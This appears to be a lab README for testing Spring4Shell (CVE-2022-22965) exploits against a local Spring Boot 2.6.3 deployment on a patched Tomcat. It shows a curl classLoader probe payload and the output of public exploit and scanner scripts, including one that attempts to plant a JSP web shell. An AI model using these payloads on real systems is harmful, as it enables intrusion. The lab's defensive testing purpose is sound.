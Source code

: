 # Lab 2: Partially vulnerable deployment

Lab to test poc exploit on vulnerable spring boot version 2.6.3 deployed on fixed tomcat version 8.5.78 with open-jdk 11

```js
Tomcat version: 8.5.78
openJDK: 11
Spring Boot: 2.6.3
```

## How to deploy?

```bash
$ docker build . -t sp4s-tomcat8.5.73-jdk11-spb2.6.3 && docker run -p 8001:8080 sp4s-tomcat8.5.73-jdk11-spb2.6.3
```

You can access the application at http://localhost:8001/helloworld/greeting

## Test if application is vulnerable

### Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC
```bash
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
$ curl -i http://localhost:8001/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0
HTTP/1.1 400 
Content-Type: application/json
Date: Sun, 17 Apr 2022 19:55:40 GMT
Connection: close
Content-Length: 110

{"timestamp":"2022-04-17T19:55:40.760+00:00","status":400,"error":"Bad Request","path":"/helloworld/greeting"}
```

400 response indicates that application is vulnerable but is it exploitable? let's try to exploit it using another exploit poc

### POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC

```bash
$ python exploit.py --url http://localhost:8001/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 500
[*] Modifying Log Configurations
[*] Response code: 500
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 500
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost.com:8001/shell.jsp?cmd=id
```

It gives 500 error when trying to upload the shell because of fixed tomcat version.


### POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
$ python spring4shell-scan.py --url http://localhost:8001/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8001/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8001/helloworld/greeting | PAYLOAD: class.module.classLoader[ol38bo1]=ol38bo1
[!!!] Target Affected (CVE-2022-22965)
[!] Total Vulnerable Hosts: 1
[!] http://localhost:8001/helloworld/greeting
```

Again similar results exploit poc suggests application is vulnerable which it is but because tomcat version is fixed exploit didn't worked

